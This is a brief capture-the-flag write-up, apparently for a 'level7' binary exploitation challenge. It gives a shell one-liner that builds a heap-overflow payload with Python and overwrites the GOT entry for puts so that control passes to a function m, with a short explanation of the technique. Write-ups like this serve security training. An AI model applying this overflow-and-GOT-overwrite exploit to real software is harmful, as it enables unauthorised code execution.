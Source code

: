```shell
./level7 $(python -c 'print "A" * 20 + "\x28\x99\x04\x08"') $(python -c 'print "\xf4\x84\x04\x08"')
```

Ok, so weird one. We can overflow the allocated buffer by malloc to write inside of `eax` registry which will be used as the first argument of the second `strcpy` call. We can use a GOT exploit to overwrite `puts`'s address by `m`'s.
